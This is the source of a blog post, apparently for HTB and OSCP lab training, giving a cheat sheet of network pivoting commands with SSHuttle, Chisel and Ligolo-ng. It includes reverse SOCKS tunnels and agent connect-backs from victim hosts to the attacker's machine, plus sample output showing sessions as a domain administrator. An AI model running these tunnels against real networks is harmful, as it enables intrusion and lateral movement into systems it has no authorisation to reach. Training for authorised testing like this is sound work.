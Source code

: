 ```yaml
---
layout: post
title:  "Pivoting - Cheat Sheet"
author: nanobyte
date:   2023-06-27
description: Pivoting Cheat Sheet
tags: HTB OSCP Pivoting
---
```


[Part 1](https://nanobytesecurity.com/2023/06/26/pivoting-basics-part1.html), pivoting introduction and using SSHuttle\
[Part 2](https://nanobytesecurity.com/2023/06/26/chisel-pivoting-part2.html), pivoting with Chisel\
[Part 3](https://nanobytesecurity.com/2023/06/26/ligolo-pivoting-part3.html), pivoting with Ligolo-ng
[Pivoting Cheat Sheet](https://nanobytesecurity.com/2023/06/27/pivoting-cheatsheet.html), pivoting cheat sheet

<h3>SSHuttle</h3>

{% highlight bash linenos %}
sshuttle -r root@<victim> <distant network> -x <victim eth2> --ssh-cmd 'ssh -i id_rsa.key'
{% endhighlight %}

Chisel

{% highlight bash linenos %}
Make sure to use the same versions, on target and host machines!
# Attacking Box:
./chisel server -p 80 --reverse

# Victim Box (IP is to our Kali Machine):
./chisel.exe client 10.10.14.18:80 R:socks
{% endhighlight %}

Place this into /etc/proxychains4.conf:

{% highlight bash linenos %}
socks5 127.0.0.1 1080
{% endhighlight %}

<h4>Triple Pivoting (Oh My!)</h4>h4>

On Kali:


{% highlight bash linenos %}
./chisel server -p 80 --reverse
{% endhighlight %}

First pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:1080:socks
{% endhighlight %}

Second pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:2080:socks
{% endhighlight %}

Third pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:3080:socks
{% endhighlight %}

Change /etc.proxychains4.conf:


{% highlight bash linenos %}
# Change to Dynamic Chain:
#strict_chain
dynamic_chain

# Add our chisel proxies
socks5 127.0.0.1 3080
socks5 127.0.0.1 2080
socks5 127.0.0.1 1080
{% endhighlight %}

<h3>Ligolo-ng</h3>

To setup ligolo-ng, on Kali:

{% highlight bash linenos %}
# This will create a new TUN interface
sudo ip tuntap add user [your_username] mode tun ligolo

# This will set the link on yhe nee interface to up
sudo ip link set ligolo up

# This will add a route to the new tunnel.
# NOTE this is where you insert the new subnet you want to access.
sudo ip route add 172.16.5.0/24 dev ligolo
{% endhighlight %}

Once added, we can run the proxy on Kali:

{% highlight bash linenos %}
./proxy -selfcert
{% endhighlight %}

Then, from the Pivot machine, we can run the agent command:

{% highlight bash linenos %}
./agent -connect 10.10.14.10:11601 -ignore-cert
{% endhighlight %}

On our Proxy on Kali, we should see a connection back:

{% highlight bash linenos %}
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:11601
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

Made in France ♥ by @Nicocha30!

ligolo-ng » INFO[0024] Agent joined. name="DOMAIN\\Administrator@DC01" remote="10.10.110.3:49821"
We can then run the session and start commands:
ligolo-ng » session
? Specify a session : 1 - DOMAIN\Administrator@DC01 - 10.10.110.3:49821

[Agent : DOMAIN\Administrator@DC01] » start
[Agent : DOMAIN\Administrator@DC01] » INFO[0359] Starting tunnel to CORP\Administrator@DC01
{% endhighlight %}

<h4>Double Pivoting</h4>

Once we have multiple agents, we can quickly change the interaction between which one to use:

{% highlight bash linenos %}
[Agent : DEV\Administrator@DC02] » session
? Specify a session :  [Use arrows to move, type to filter]
> 6 - DOMAIN\Administrator@DC01 - 10.10.110.3:18115
  7 - DOMAIN\Administrator@DC02 - 10.10.110.3:33051
{% endhighlight %}
